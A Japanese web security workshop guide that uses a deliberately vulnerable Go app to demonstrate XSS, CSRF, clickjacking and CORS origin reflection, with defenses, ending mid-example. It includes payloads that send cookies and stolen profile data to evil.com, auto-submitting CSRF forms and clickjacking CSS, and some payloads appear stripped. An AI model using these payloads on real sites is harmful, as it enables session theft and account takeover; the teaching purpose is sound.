




# Webセキュリティ実習：XSS, CSRF, クリックジャッキング、CORS を体験する

> **⚠️ 本実習は 4 つの独立したセクション（XSS / CSRF / クリックジャッキング / CORS）から構成されています。時間に応じて分割して実施してください。**

## 目的

このワークショップでは、Web アプリケーションの代表的な脆弱性である XSS (クロスサイトスクリプティング)、CSRF (クロスサイトリクエストフォージェリ)、クリックジャッキング、CORS (クロスオリジンリソースシェアリング) の誤設定を、意図的に脆弱なアプリケーションを用いて体験し、その仕組みと対策方法を学びます。

## ゴール

- XSS の仕組み（格納型・反射型）を理解し、JavaScript が実行される様子を確認する。
- CSRF の仕組みを理解し、認証済みユーザーに代わって不正なリクエストが送られる様子を確認する。
- クリックジャッキングの仕組みを理解し、iframe を用いてユーザーを視覚的に欺く手法を確認する。
- CORS の誤設定による情報漏洩の仕組みを理解し、適切なオリジン制御の重要性を確認する。
- 各脆弱性に対する防御策（エスケープ、トークン、ヘッダー設定、CORS 設定）を理解する。

---

## 登場人物と攻撃フロー

### XSS (Cross-Site Scripting)

攻撃者が悪意のあるスクリプトを Web ページに埋め込み、他のユーザーのブラウザで実行させます。



### CSRF (Cross-Site Request Forgery)

ログイン済みのユーザーを騙して、意図しないリクエスト（パスワード変更やメールアドレス変更など）を脆弱なサイトへ送信させます。



### クリックジャッキング (Clickjacking)

透明な iframe を用いて、ユーザーが意図したボタンとは別のボタンをクリックさせます。



### CORS の誤設定による情報漏洩 (Cross-Origin Data Leakage)

CORS の誤設定（特に Origin Reflection）により、攻撃者がユーザーの機密データを取得できる脆弱性です。



**なぜ攻撃が成功するのか？**

CORS は「リクエストを送信するかどうか」を制御するものではなく、**「サーバーから返ってきたレスポンスを、JavaScript が読み取ることを許可するかどうか」**をブラウザが制御する仕組みです。

1. **Cookie の自動送信（CORSとは独立したブラウザの仕様）**: ブラウザは、リクエスト先のドメイン（`localhost:8080`）に対して保存済みの Cookie があれば、たとえ攻撃サイトからのリクエストであっても自動的に付与して送信します。
2. **認証の成立**: サーバーは届いた Cookie を検証し、認証済みとして機密データをレスポンスに含めます。
3. **CORS 誤設定の悪用**:
   - **Origin Reflection**: サーバーがリクエストの `Origin` ヘッダーをそのまま返すため、ブラウザは攻撃サイトからのアクセスを「許可されている」と誤認します。
   - **Access-Control-Allow-Credentials: true**: これが設定されているため、ブラウザは「認証済みレスポンスを攻撃者の JavaScript に渡しても安全だ」と判断し、レスポンスの読み取りを許可してしまいます。

つまり、**CORS の誤設定は「送られてしまった Cookie によって得られた機密情報を、他人が盗み見ることを防ぐための防波堤」を自ら壊している状態**です。

---

## アンチパターンと解決策

| 脆弱性                   | ❌ 危険な実装                                      | ✅ 安全な対策                                                |
| :----------------------- | :------------------------------------------------- | :----------------------------------------------------------- |
| **XSS**                  | ユーザー入力をエスケープせずに出力する             | 出力を適切にエスケープする、CSPを設定する                    |
| **CSRF**                 | Cookie だけに頼った認証を行う                      | CSRFトークンを使用する、SameSite属性を設定する               |
| **クリックジャッキング** | 外部サイトからの iframe 埋め込みを許可している     | `X-Frame-Options` または CSP の `frame-ancestors` を設定する |
| **CORS の誤設定**        | Origin Reflection（Origin ヘッダーをそのまま返す） | 許可リストに基づく特定のオリジンのみを許可する               |

---

## アーキテクチャ

この実習では、2 つの Go アプリケーションがそれぞれ別ポートで動作します。「被害者サイト（Victim）」と「攻撃者サイト（Attacker）」が別オリジンになるため、CSRF や CORS のデモが現実に近い形で体験できます。

### ディレクトリ構造

```text
infra/assets/web_security/
├── victim/
│   ├── main.go         # 被害者サイト (port 8080)
│   └── go.mod
└── attacker/
    ├── main.go         # 攻撃者サイト (port 8081)
    └── go.mod
```

---

## 準備

### 1. アプリケーションの起動

ターミナルを 2 つ開き、それぞれでサーバーを起動します。

```bash
# ターミナル1: 被害者サイト
cd infra/assets/web_security/victim
go run main.go

# ターミナル2: 攻撃者サイト
cd infra/assets/web_security/attacker
go run main.go
```

### 2. 動作確認

ブラウザで `http://localhost:8080` にアクセスしてください。

---

## 実習ステップ

### STEP 1: 格納型 XSS (Stored XSS) ～攻撃コードの保存と実行～

掲示板のような機能にスクリプトを保存させ、ページを開くたびに実行されることを確認します。

**実施手順:**

1. `Stored XSS Demo` ページへ移動します。
2. まず `Login` ボタンを押してセッション Cookie をセットしておきます。
3. 入力欄に以下のスクリプトを入力して送信します。

   ```html
   <script>
     alert("XSS: your cookie: " + document.cookie);
   </script>
   ```

4. ページがリロードされ、アラートに Cookie 値と実際の攻撃で使われるスクリプトが表示されることを確認します。
5. ページを再読み込みしても、アラートが再度表示されることを確認します（データベースに保存されているため）。

**何が起きているのか？**

```text
ユーザー入力: <script>alert(...)</script>
          ↓ (エスケープなしで保存)
データベース: <script>alert(...)</script>
          ↓ (そのままHTML出力)
ブラウザ解釈: <script>タグとして認識 → JavaScript実行

実際の攻撃スクリプト:
  new Image().src="https://evil.com/steal?c="+document.cookie

  → 攻撃者サーバーへ Cookie が送信される
  → Image オブジェクトを使う理由: fetch/XMLHttpRequest より制限が少なく、
    単に URL をリクエストするだけでデータを外部送信できるため
```

**脆弱なコード (victim/main.go:77-80):**

```go
for _, c := range data.Comments {
    // ❌ 脆弱性: ユーザー入力をエスケープせずにそのまま出力
    fmt.Fprintf(w, "<li>%s</li>", c)
}
```

**攻撃の応用例:**

- `<script>document.location='http://evil.com?c='+document.cookie;</script>` → Cookie の盗難（画面遷移するためユーザーに気づかれる）
- `<script>new Image().src="https://evil.com/steal?c="+document.cookie;</script>` → Cookie の盗難（ユーザーに気づかれにくい）
- `<script>window.top.location='http://fake-bank.com';</script>` → フィッシングサイトへの誘導

---

### STEP 2: 反射型 XSS (Reflected XSS) ～URL経由での攻撃～

URL パラメータに含まれるスクリプトがそのままページに反映されることを確認します。

**実施手順:**

1. `Reflected XSS Demo` ページへ移動します。
2. URL の末尾に以下を追加してアクセスします。

   ```text
   http://localhost:8080/xss/reflected?q=
   ```

   ※ 現代の多くのブラウザは、`<script>` タグによる反射型 XSS を自動的にブロックします。`` を使うとこのフィルタをバイパスできます。

**何が起きているのか？**

```text
URLパラメータ: q=
            ↓ (エスケープなしでHTML埋め込み)
HTML出力: <p>0 results found for "".</p>
         ↓ (ブラウザがHTMLとして解釈)
         →  の src=x は画像の読み込みに失敗
         → onerror イベントハンドラが実行 → JavaScriptが走る

※ <script> タグはブラウザの XSS Auditor にブロックされるが、
    はフィルタをバイパスできる
```

**脆弱なコード (victim/main.go:84-89):**

```go
func reflectedXSSHandler(w http.ResponseWriter, r *http.Request) {
    q := r.URL.Query().Get("q")
    // ❌ 脆弱性: クエリパラメータをそのままHTMLに埋め込み
    fmt.Fprintf(w, "<h1>検索結果</h1><p>「%s」の検索結果は0件です。</p>", q)
}
```

**攻撃の流れ (フィッシングメール例):**

```text
攻撃者が作成したURL:
http://victim-site.com/search?q=

↓ ユーザーがメールからリンクをクリック

被害者のCookieが攻撃者サイトへ送信される

※ onerror内で"を使う場合、URLエンコード(%22)が必要なことがある
```

---

### STEP 3: CSRF (Cross-Site Request Forgery) ～認証済みユーザーへのなりすまし～

ログイン済みのユーザーを騙して、意図しないリクエストを送信させます。

**実施手順:**

1. `ログイン` をクリックして、セッション Cookie をセットします。
   - 開発者ツール → Application → Cookies で `session_id` がセットされたことを確認
2. `被害者サイト` のトップに戻り、現在のメールアドレスが `victim@example.com` であることを確認します。
3. `CSRF Attack Page (port 8081)` リンクをクリックし、攻撃者サイト（別オリジン: localhost:8081）に移動します。
4. 攻撃者サイトの「Claim Prize」ボタンをクリックします。
5. 被害者サイトのトップに戻ると、メールアドレスが `hacker@evil.com` に変更されていることを確認します。

**何が起きているのか？**

```text
[攻撃者サイトのHTML]
<form action="http://localhost:8080/update-email" method="POST">
    <input type="hidden" name="email" value="hacker@evil.com">
    <input type="submit" value="賞品を受け取る">
</form>

↓ ユーザーがボタンをクリック

ブラウザが自動的にCookieを付与:
POST /update-email HTTP/1.1
Host: localhost:8080
Cookie: session_id=secret-session-123  ← 自動的に付与！
Content-Type: application/x-www-form-urlencoded

email=hacker@evil.com

↓ サーバー側の処理

Cookieによる「認証」は成功 → メールアドレスが変更される
```

**なぜ攻撃が成功するのか？**

1. **ブラウザのCookie仕様**: 同一オリジンへのリクエストには、Cookie が自動的に付与される
2. **SameSite属性の不在**: デモでは `SameSite` 属性を設定していないため、他サイトからの POST でも Cookie が送られる
3. **CSRFトークンがない**: リクエストが本当にユーザー意図かを検証する仕組みがない

**自動送信バージョン（JavaScript使用）:**

```html
<!-- ページ読み込み時に自動送信 -->
<body onload="document.forms[0].submit()">
  <form action="http://victim.com/update-email" method="POST">
    <input type="hidden" name="email" value="hacker@evil.com" />
  </form>
</body>
```

---

### STEP 4: クリックジャッキング (Clickjacking) ～透明なiframeによる操作乗っ取り～

透明な iframe を用いて、ユーザーが意図したボタンとは別のボタンをクリックさせます。

**実施手順:**

1. 攻撃者サイト（port 8081）の `Clickjacking Attack Page` をクリックします。
2. 「無料ドーナツ配布中！」のページが表示されます。
3. 「GET DONUTS」ボタンの下に、うっすらと見える被害者サイトの「Follow @hacker」ページが表示されます（デモ用に半透明にしています）。
4. 「GET DONUTS」ボタンをクリックすると、実際には裏にある「Follow」ボタンがクリックされます。
5. 意図せず @hacker をフォローしてしまいます。

**何が起きているのか？**

```css
/* 攻撃者サイトのCSS */
#victim-frame {
  position: absolute; /* 絶対位置で配置 */
  top: 0;
  left: 0;
  opacity: 0.4; /* 本物の攻撃では 0.0 (完全透明) */
  z-index: 2; /* 背景より手前に配置 */
}

#fake-page {
  position: absolute;
  z-index: 1; /* 背景側 */
  /* 「無料ドーナツ」の偽ページ */
}
```

```text
┌─────────────────────────────────────┐
│  [攻撃者の偽ページ - z-index: 1]    │
│  🍩 無料ドーナツ配布中！            │
│                                     │
│     ┌───────────────────────────┐   │
│     │ [被害者サイトのiframe]    │   │
│     │ z-index: 2 (手前)         │   │
│     │ Follow @hacker            │   │
│     │ [Follow]ボタン            │   │ ← 透明/半透明
│     └───────────────────────────┘   │
│                                     │
│         [GET DONUTS]ボタン          │ ← 偽ボタン
│         (実際はiframeのボタンの上)  │
└─────────────────────────────────────┘
```

**脆弱なコード (victim/main.go:119-139):**

```go
func followHandler(w http.ResponseWriter, r *http.Request) {
    // ❌ 脆弱性: X-Frame-Options ヘッダーがない
    // 他サイトのiframe内で表示可能になっている

    fmt.Fprintf(w, `
        <h1>Follow @hacker</h1>
        <button>Follow</button>
    `)
}
```

**ボタンの位置合わせ:**

```javascript
// 攻撃者は被害者のボタン位置を把握し、偽ボタンの位置を調整
// padding-top: 105px → 被害者のボタンと位置が一致
```

---

### STEP 5: CORS の誤設定 (Cross-Origin Data Leakage) ～別サイトからのデータ窃取～

API が Origin Reflection（リクエストの Origin ヘッダーをそのまま返す設定）を行っていると、攻撃者サイトから Cookie を含めたリクエストを送り、ユーザーの機密データを取得できてしまいます。

**実施手順:**

1. 被害者サイト（port 8080）で `Login` ボタンを押してセッション Cookie をセットします。
2. 攻撃者サイトの `CORS Attack Page (port 8081)` リンクをクリックします。
3. 「Verify Account」ボタンをクリックします。
4. 被害者サイトの `/api/profile` から名前、メールアドレス、API キーが窃取されて画面に表示されることを確認します。

**何が起きているのか？**

```text
[攻撃者サイトのJavaScript]
fetch('http://localhost:8080/api/profile', {credentials: 'include'})
  .then(r => r.json())
  .then(data => { /* データを表示 */ })

↓ ブラウザがプリフライトリクエスト送信

OPTIONS /api/profile HTTP/1.1
Host: localhost:8080
Origin: http://localhost:8081

↓ 被害者サーバーのレスポンス（❌ 脆弱性: Origin Reflection）

HTTP/1.1 204 No Content
Access-Control-Allow-Origin: http://localhost:8081   ← Origin Reflection!
Access-Control-Allow-Credentials: true

↓ ブラウザが実際のリクエスト送信

GET /api/profile HTTP/1.1
Host: localhost:8080
Origin: http://localhost:8081
Cookie: session_id=secret-session-123  ← credentials: 'include' で送信！

↓ 被害者サーバーのレスポンス

HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://localhost:8081   ← Origin Reflection
Access-Control-Allow-Credentials: true
Content-Type: application/json

{"name":"Alice Victim","email":"victim@example.com","secret":"my-secret-api-key-abc123"}

↓ ブラウザのCORSチェック

Origin が一致 → 許可
→ 攻撃者サイトのJavaScriptがレスポンスを読み取れる！
```

**脆弱なコード (victim/main.go:141-):**

```go
func profileHandler(w http.ResponseWriter, r *http.Request) {
    // ❌ 脆弱性: Origin Reflection
    origin := r.Header.Get("Origin")
    w.Header().Set("Access-Control-Allow-Origin", origin)
    w.Header().Set("Access-Control-Allow-Credentials", "true")

    // 認証済みユーザーの機密データを返す
    json.NewEncoder(w).Encode(profile)
}
```

**なぜ攻撃が成功するのか？**

CORS は「リクエストを送信するかどうか」を制御するものではなく、**「サーバーから返ってきたレスポンスを、JavaScript が読み取ることを許可するかどうか」**をブラウザが制御する仕組みです。

1. **Cookie の自動送信（CORSとは独立したブラウザの仕様）**: ブラウザは、リクエスト先のドメイン（`localhost:8080`）に対して保存済みの Cookie があれば、たとえ攻撃サイトからのリクエストであっても自動的に付与して送信します。
2. **認証の成立**: サーバーは届いた Cookie を検証し、認証済みとして機密データをレスポンスに含めます。
3. **CORS 誤設定の悪用**:
   - **Origin Reflection**: サーバーがリクエストの `Origin` ヘッダーをそのまま返すため、ブラウザは攻撃サイトからのアクセスを「許可されている」と誤認します。
   - **Access-Control-Allow-Credentials: true**: これが設定されているため、ブラウザは「認証済みレスポンスを攻撃者の JavaScript に渡しても安全だ」と判断し、レスポンスの読み取りを許可してしまいます。

つまり、**CORS の誤設定は「送られてしまった Cookie によって得られた機密情報を、他人が盗み見ることを防ぐための防波堤」を自ら壊している状態**です。

**実際の攻撃では:**

```text
攻撃者は窃取したデータを自サーバーに送信:
new Image().src='https://evil.com/collect?d='+JSON.stringify(data)
```

---

## 防御策の実装例

### XSS 対策

#### 1. HTML エスケープ

Go の `html/template` パッケージは、デフォルトで変数をエスケープします。

```go
// ❌ 危険な例: エスケープせずにそのまま出力
fmt.Fprintf(w, "<li>%s</li>", comment)

// ✅ 安全な例: html/template を使用（自動エスケープ）
import (
    "html/template"
    "net/http"
)

func storedXSSHandler(w http.ResponseWriter, r *http.Request) {
    // テンプレートの定義（{{.}} は自動エスケープされる）
    tmpl := template.Must(template.New("comments").Parse(`
        <h1>コメント一覧</h1>
        <ul>
        {{range .Comments}}
            <li>{{.}}</li>  ← {{.}} 内の特殊文字は自動的に &lt; &gt; などに変換
        {{end}}
        </ul>
    `))

    tmpl.Execute(w, data)
}
```

**エスケープの仕組み:**

```text
入力: <script>alert('XSS')</script>
       ↓ 自動エスケープ
出力: &lt;script&gt;alert('XSS')&lt;/script&gt;
       ↓ ブラウザ表示
画面: <script>alert('XSS')</script> (テキストとして表示、スクリプトは実行されない)
```

#### 2. HttpOnly Cookie

```go
http.SetCookie(w, &http.Cookie{
    Name:     "session_id",
    Value:    "secret-session-123",
    Path:     "/",
    HttpOnly: true,  // ✅ JavaScriptからCookieにアクセス不可
    Secure:   true,  // ✅ HTTPS通信でのみ送信
    SameSite: http.SameSiteStrictMode,  // ✅ CSRF対策にもなる
})
```

#### 3. Content Security Policy (CSP)

```go
func main() {
    mux := http.NewServeMux()

    // ミドルウェアでCSPヘッダーを設定
    mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
        // ✅ インラインスクリプトの実行を禁止
        w.Header().Set("Content-Security-Policy",
            "default-src 'self'; " +
            "script-src 'self' 'unsafe-inline'; " +  // unsafe-inline は削除推奨
            "style-src 'self' 'unsafe-inline'")

        // ... ハンドラー処理
    })
}
```

---

### CSRF 対策

#### 1. CSRF トークンの実装

CSRF トークンは「ユーザーが本当にフォームを見て、送信したか」を検証する仕組みです。

**仕組みのイメージ:**

```text
[銀行の窓口で手続きするイメージ]

銀行: 「こちらの証明書にサインしてください」（トークン発行）
客: サインをする
銀行: サインを確認 → 本人の操作と判断 ✓

攻撃者: 客に成りすまして手続きしようとする
銀行: 「証明書は？」
攻撃者: 持っていない...
銀行: 「不正なアクセスです！」✗
```

**実装の流れをステップバイステップで解説:**

**ステップ1: ログイン時にトークンを発行**

```go
// サーバー側のメモリ（本番ではRedis等を使用）
var csrfTokens = make(map[string]string) // session_id -> token

// ログイン時
sessionID := "user-session-123"
token := "abc123xyz456"  // ランダムな文字列を生成

// サーバーは「このユーザーの正しいトークンは abc123xyz456」と記録
csrfTokens[sessionID] = token

// トークンをCookieでブラウザに送信
http.SetCookie(w, &http.Cookie{
    Name:  "csrf_token",
    Value: "abc123xyz456",  // ← 正しいトークン
})
```

**ステップ2: フォームにトークンを埋め込む**

```html
<!-- サーバーが生成するHTMLフォーム -->
<form method="POST" action="/update-email">
  <!-- hiddenフィールドで正しいトークンを埋め込む -->
  <input type="hidden" name="csrf_token" value="abc123xyz456" />

  <input name="email" placeholder="新しいメールアドレス" />
  <button>更新</button>
</form>
```

**開発者ツールで確認:**

```html
<!-- ユーザーがブラウザで見るHTML -->
<input type="hidden" name="csrf_token" value="abc123xyz456" />
^^^^^^^^^^^^^^ 攻撃者には見えない（Cookieと同じく）
```

**ステップ3: 正常なリクエスト（ユーザーが操作した場合）**

```text
ユーザーが「更新」ボタンをクリック
         ↓
POST /update-email HTTP/1.1
Cookie: session_id=user-session-123
       csrf_token=abc123xyz456
Body: csrf_token=abc123xyz456&email=new@example.com
         ↓
サーバー検証:
  - Cookieのトークン: abc123xyz456
  - フォームのトークン: abc123xyz456
  - 一致！ ✓ → 処理続行
```

**ステップ4: 攻撃者のリクエスト（CSRF攻撃）**

```html
<!-- 攻撃者サイトのHTML -->
<form action="http://victim.com/update-email" method="POST">
  <input type="hidden" name="email" value="hacker@evil.com" />
  <!-- ← トークンがない！攻撃者は正しいトークンを知りえない -->
</form>
```

```text
攻撃者サイトから送信されるリクエスト:
POST /update-email HTTP/1.1
Cookie: session_id=user-session-123
       csrf_token=abc123xyz456  ← Cookieは自動送信される
Body: email=hacker@evil.com      ← トークンがない！
      ^^^^^^^^^^^^^^^^^^^^^^^^
      csrf_token パラメータがない、または適当な値
         ↓
サーバー検証:
  - Cookieのトークン: abc123xyz456
  - フォームのトークン: (なし または "dummy")
  - 不一致！ ✗ → 403 Forbidden
```

**実装コード:**

```go
// トークン生成（暗号論的に安全な乱数を使用）
func generateCSRFToken() string {
    b := make([]byte, 16)  // 128ビットのランダム値
    rand.Read(b)
    return hex.EncodeToString(b)
}

// ログイン時にトークンを発行
func loginHandler(w http.ResponseWriter, r *http.Request) {
    sessionID := "user-session-123"
    token := generateCSRFToken()  // 例: "a1b2c3d4e5f6..."

    // サーバー側で記録
    csrfTokens[sessionID] = token

    // Cookieで送信
    http.SetCookie(w, &http.Cookie{
        Name:  "csrf_token",
        Value: token,
    })
}

// フォーム表示時にトークンを埋め込む
func showUpdateEmailForm(w http.ResponseWriter, r *http.Request) {
    token := getCSRFTokenForSession(r)  // セッションのトークンを取得

    fmt.Fprintf(w, `
        <form method="POST">
            <input type="hidden" name="csrf_token" value="%s">
            <input name="email">
            <button>更新</button>
        </form>
    `, token)
}

// POSTリクエストの検証
func updateEmailHandler(w http.ResponseWriter, r *http.Request) {
    if r.Method == http.MethodPost {
        // フォームから送信されたトークン
        formToken := r.FormValue("csrf_token")

        // セッションに保存された正しいトークン
        sessionID := getSessionID(r)
        expectedToken := csrfTokens[sessionID]

        // 比較
        if formToken != expectedToken {
            http.Error(w, "Invalid CSRF token", http.StatusForbidden)
            return  // ✗ 攻撃をブロック
        }

        // ✓ トークンが一致 → 処理続行
        updateEmail(r.FormValue("email"))
    }
}
```

**重要なポイント:**

1. **トークンは推測不可能**: 暗号論的に安全な乱数で生成
2. **セッションごとに一意**: ユーザーごとに異なるトークン
3. **有効期限**: 一定時間で失効させる（実装推奨）
4. **二重送信対策**: 一度使ったトークンは無効にする（オプション）

#### 2. SameSite Cookie

```go
http.SetCookie(w, &http.Cookie{
    Name:     "session_id",
    Value:    "secret-session-123",
    SameSite: http.SameSiteStrictMode,  // ✅ 同一サイトからのリクエストのみCookie送信
    // SameSiteのレベル:
    //   - Strict: 完全に同一サイトのみ（他サイトからの遷移でも不送信）
    //   - Lax:    GETリクエスト等は許可（推奨設定）
    //   - None:   常に送信（脆弱性あり）
})
```

**SameSiteの効果:**

```text
[SameSite=Lax の場合]

✗ 攻撃者サイトからのPOST → Cookie不送信 → 認証失敗
✓ 同一サイト内でのPOST → Cookie送信   → 認証成功
```

---

#### 3. CORS (Cross-Origin Resource Sharing) の適切な設定

**CORS とは？**

CORS（クロスオリジンリソースシェアリング）は、ブラウザが「異なるオリジン（ドメイン・ポート・プロトコル）」のリソースへのアクセスを制御する仕組みです。

**オリジンの例:**

```text
https://example.com:443/api/data
       ^^^^^^^^^^^^^^ ^^^
       オリジン         パス

同一オリジン:
  ✓ https://example.com/api/data
  ✓ https://example.com:443/api/data

異なるオリジン:
  ✗ https://api.example.com/api/data  （異なるドメイン）
  ✗ http://example.com/api/data       （異なるプロトコル）
  ✗ https://example.com:8080/api/data （異なるポート）
```

**なぜ CORS が必要なのか？**

ブラウザには**同一オリジンポリシー（Same-Origin Policy）**というセキュリティ機構があり、異なるオリジンへのリクエストを制限しています。CORS はこの制限を安全に緩和するための仕組みです。

**CORS がないと何が問題か？**

```text
[ユーザーが悪意のあるサイトを閲覧中]

悪意のあるサイト: evil.com
<script>
  // ユーザーの Gmail にアクセスしてメールを盗む
  fetch('https://mail.google.com/api/messages')
    .then(r => r.json())
    .then(data => steal(data));  // データ盗難
</script>

↓ 同一オリジンポリシーがない場合

ブラウザ: 「リクエストを許可します」
→ 攻撃者がユーザーのプライベートデータにアクセスできる！
```

**CORS があればどうなる？**

```text
悪意のあるサイトからのリクエスト:
GET /api/messages HTTP/1.1
Host: mail.google.com
Origin: https://evil.com  ← リクエスト元

↓ サーバーは CORS ポリシーをチェック

サーバー: 「evil.com からのリクエストは許可しない」
Access-Control-Allow-Origin: （なし）

↓ ブラウザがレスポンスをブロック

ブラウザ: 「CORS エラー: evil.com はこのリソースにアクセスできません」
→ JavaScript はレスポンスを読めない ✓ 安全
```

**CORS の仕組み:**

```text
1. ブラウザがリクエストに Origin ヘッダーを追加
   Origin: https://example.com

2. サーバーがレスポンスに Access-Control-Allow-Origin を追加
   Access-Control-Allow-Origin: https://example.com  （許可）
   Access-Control-Allow-Origin: *                        （全て許可）

3. ブラウザが一致を確認
   - 一致 → レスポンスを JavaScript に渡す
   - 不一致 → エラーを投げる
```

**CORS の誤設定による脆弱性:**

```go
// ❌ 危険な実装: すべてのオリジンを許可
func apiHandler(w http.ResponseWriter, r *http.Request) {
    // 任意のサイトから API 呼び出し可能
    w.Header().Set("Access-Control-Allow-Origin", "*")

    // 機密データを返す
    json.NewEncoder(w).Encode(sensitiveData)
}
```

```html
<!-- 攻撃者が別のサイトから API 呼び出し可能 -->
<!-- evil.com -->
<script>
  fetch("https://victim.com/api/sensitive-data")
    .then((r) => r.json()) // CORS エラーにならない！
    .then((data) => sendToAttacker(data));
</script>
```

**比較：`Access-Control-Allow-Origin: *` vs `Origin Reflection`**

| 特徴                     | ACAO: \*                     | Origin Reflection                |
| :----------------------- | :--------------------------- | :------------------------------- |
| **許可する相手**         | 全員                         | 全員（一人ずつ個別に許可）       |
| **Credentials (Cookie)** | 使えない                     | 使えてしまう（超危険）           |
| **主な用途**             | 公共の API、静的ファイル     | 開発中のデバッグ（※本番では NG） |
| **セキュリティ**         | 比較的安全（公共データのみ） | 脆弱性（情報漏洩の温床）         |

**安全な CORS 設定:**

```go
// ✅ 安全な実装: 特定のオリジンのみ許可
func apiHandler(w http.ResponseWriter, r *http.Request) {
